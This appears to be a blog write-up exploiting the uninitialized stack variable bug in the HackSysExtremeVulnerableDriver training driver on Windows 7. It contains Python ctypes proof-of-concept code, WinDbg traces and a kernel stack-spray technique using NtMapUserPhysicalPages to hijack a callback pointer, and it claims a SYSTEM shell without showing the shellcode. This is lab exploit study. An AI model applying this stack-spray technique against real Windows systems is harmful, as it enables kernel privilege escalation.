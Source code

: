 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver UninitializedStackVariable
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Let's work with the same steps like the last challenge.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x22202F, buf, len(buf), None, 0, byref(c_ulong()), None)
```

Obviously, it triggers an exception, but it work fine.
```
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE ******
[+] UserValue: 0xFFFFFFFF
[+] UninitializedStackVariable Address: 0x96535AC8
[+] UninitializedStackVariable.Value: 0x00000000
[+] UninitializedStackVariable.Callback: 0x00000400
[+] Triggering Uninitialized Stack Variable Vulnerability
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE ******
```


## 0x002 Exploit it!

Similarlly, if a UserValue not equal to 0xBAD0B0B0, there will call an Uninitialized Stack Variable
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedstackvariable/0x001.png)

Set a breakpoint at TriggerUninitializedStackVariable method
```
kd> bp HEVD!TriggerUninitializedStackVariable+0x94
kd> bl
     0 e Disable Clear  957c3f8e     0001 (0001) HEVD!TriggerUninitializedStackVariable+0x94

kd> g
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE ******
[+] UserValue: 0xBAD31337
[+] UninitializedStackVariable Address: 0x8D78BAC8
[+] UninitializedStackVariable.Value: 0x87C37940
[+] UninitializedStackVariable.Callback: 0x00000400
[+] Triggering Uninitialized Stack Variable Vulnerability
Breakpoint 0 hit
HEVD!TriggerUninitializedStackVariable+0x94:
957c3f8e ff95f8feffff    call    dword ptr [ebp-108h]
kd> dps esp
8d78bab8  18048fee
8d78babc  9343b0b0
8d78bac0  9343b120
8d78bac4  957c4ca4 HEVD! ?? ::NNGAKEGL::`string'
8d78bac8  87c37940
8d78bacc  00000400
8d78bad0  00000000
8d78bad4  0017c36c
8d78bad8  0017c464
8d78badc  0017c36c
8d78bae0  8d78bb04
8d78bae4  8406b65c nt!PsChargeSharedPoolQuota+0x42
8d78bae8  0017f014
8d78baec  00000000
8d78baf0  05000000
8d78baf4  000000f8
```
I know the Addr of Callback is 0x8d78bacc with a value of 0x000004

Next step, find the Stack Init Addr(0x8d78bfd0 at this time)
```
kd> !thread
THREAD 87e59830  Cid 0a80.0a74  Teb: 7ffde000 Win32Thread: fd76c160 RUNNING on processor 0
IRP List:
    9343b0b0: (0006,0094) Flags: 00060000  Mdl: 00000000
Not impersonating
DeviceMap                 8bb47a60
Owning Process            85975030       Image:         python.exe
Attached Process          N/A            Image:         N/A
Wait Start TickCount      10277          Ticks: 0
Context Switch Count      24             IdealProcessor: 0             
UserTime                  00:00:00.000
KernelTime                00:00:00.046
Win32 Start Address 0x1c161327
Stack Init 8d78bfd0 Current 8d78b198 Base 8d78c000 Limit 8d789000 Call 00000000
Priority 9 BasePriority 8 PriorityDecrement 0 IoPriority 2 PagePriority 5
ChildEBP RetAddr  Args to Child              
8d78bbd4 957c3fe8 01ace154 8d78bbfc 957c4219 HEVD!TriggerUninitializedStackVariable+0x94 (FPO: [Non-Fpo]) (CONV: stdcall) [c:\hacksysextremevulnerabledriver\driver\uninitializedstackvariable.c @ 120] 
8d78bbe0 957c4219 9343b0b0 9343b120 93543c18 HEVD!UninitializedStackVariableIoctlHandler+0x1a (FPO: [Non-Fpo]) (CONV: stdcall) [c:\hacksysextremevulnerabledriver\driver\uninitializedstackvariable.c @ 151] 
8d78bbfc 83e854bc 934f4dd8 9343b0b0 9343b0b0 HEVD!IrpDeviceIoCtlHandler+0x18b (FPO: [Non-Fpo]) (CONV: stdcall) [c:\hacksysextremevulnerabledriver\driver\hacksysextremevulnerabledriver.c @ 285] 
8d78bc14 84086eee 93543c18 9343b0b0 9343b120 nt!IofCallDriver+0x63
8d78bc34 840a3cd1 934f4dd8 93543c18 00000000 nt!IopSynchronousServiceTail+0x1f8
8d78bcd0 840a64ac 934f4dd8 9343b0b0 00000000 nt!IopXxxControlFile+0x6aa
8d78bd04 83e8c42a 00000070 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
8d78bd04 77ab64f4 00000070 00000000 00000000 nt!KiFastCallEntry+0x12a (FPO: [0,3] TrapFrame @ 8d78bd34)
002df740 77ab4cac 75e1a08f 00000070 00000000 ntdll!KiFastSystemCallRet (FPO: [0,0,0])
002df744 75e1a08f 00000070 00000000 00000000 ntdll!ZwDeviceIoControlFile+0xc (FPO: [10,0,0])
WARNING: Frame IP not in any known module. Following frames may be wrong.
002df7a4 7737ec25 00000070 0022202f 01ace154 0x75e1a08f
···
```

The distance between the Stack Init Addr and Callback variable is 0x504.

Now, I try to spray the kernel stack with a page size of "\x41"(1024*4) by calling NtMapUserPhysicalPages method
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

ptr_adr = "\x41\x41\x41\x41" * 1024
ntdll.NtMapUserPhysicalPages(None,1024,ptr_adr)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x22202F, buf, len(buf), None, 0, byref(c_ulong()), None)
```

There is no doubt that our desired address contains our sprayed value.
```
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE ******
[+] UserValue: 0xBAD31337
[+] UninitializedStackVariable Address: 0x96B6FAC8
[+] UninitializedStackVariable.Value: 0x41414141
[+] UninitializedStackVariable.Callback: 0x41414141
[+] Triggering Uninitialized Stack Variable Vulnerability
Breakpoint 0 hit
HEVD!TriggerUninitializedStackVariable+0x94:
957c3f8e ff95f8feffff    call    dword ptr [ebp-108h]
kd> dps esp
96b6fab8  03cacfee
96b6fabc  87dbf370
96b6fac0  87dbf3e0
96b6fac4  957c4ca4 HEVD! ?? ::NNGAKEGL::`string'
96b6fac8  41414141
96b6facc  41414141
96b6fad0  41414141
96b6fad4  41414141
96b6fad8  41414141
96b6fadc  41414141
96b6fae0  41414141
96b6fae4  41414141
96b6fae8  41414141
96b6faec  41414141
96b6faf0  41414141
96b6faf4  41414141
96b6faf8  41414141
96b6fafc  41414141
96b6fb00  41414141
96b6fb04  41414141
96b6fb08  41414141
96b6fb0c  41414141
96b6fb10  c0802000
96b6fb14  96b6fb40
96b6fb18  83ebd49c nt!MiUpdateWsle+0x231
96b6fb1c  6a2b6001
96b6fb20  0000081d
```

Finally, I will spray upto our shellcode Addr, and get a system cmd.
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedstackvariable/0x002.png)
